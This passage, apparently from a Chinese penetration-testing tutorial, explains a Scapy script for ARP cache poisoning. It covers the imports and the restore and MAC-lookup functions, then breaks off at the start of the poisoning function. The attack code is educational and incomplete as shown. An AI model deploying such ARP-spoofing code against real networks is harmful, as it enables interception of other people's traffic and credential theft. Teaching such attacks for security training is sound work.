 看看这些`import`语句——Scapy 所有的力量。我们熟悉 `os` 和 `threading`，那么让我们来看看 `sys` 和 `signal`。`sys` 模块是我们在使用 Python 时始终可以访问的，它允许我们与解释器交互——在这个例子中，我们只是用它来退出 Python。`signal` 模块让你的脚本可以处理信号（在**进程间通信**（**IPC**）上下文中）。信号是发送给进程或线程的消息，告知某个事件——比如异常或除零错误。这使得我们的脚本可以处理这些信号。

接下来，我们将界面、目标 IP 和网关 IP 定义为字符串。要嗅探的数据包数量声明为整数。`conf` 属于 Scapy；我们使用刚才声明的 `interface` 变量来设置界面，并将冗余级别设置为 `0`。

现在，让我们深入了解一些函数，具体如下：

```
def restore(gateway, gwmac_addr, target, targetmac_addr):
```

```
   print("\nRestoring normal ARP mappings.")
```

```
   send(ARP(op = 2, psrc = gateway, pdst = target, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = gwmac_addr), count = 5)
```

```
   send(ARP(op = 2, psrc = target, pdst = gateway, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = targetmac_addr), count = 5)
```

```
   sys.exit(0)
```

```
def macgrab(ip_addr):
```

```
   responses, unanswered = srp(Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(pdst = ip_addr), timeout = 2, retry = 10)
```

```
   for s,r in responses:
```

```
     return r[Ether].src
```

```
     return None
```

```
def poison_target(gateway, gwmac_addr, target, targetmac_addr):
```

```
   poison_target = ARP()
```

```
   poison_target.op = 2
```

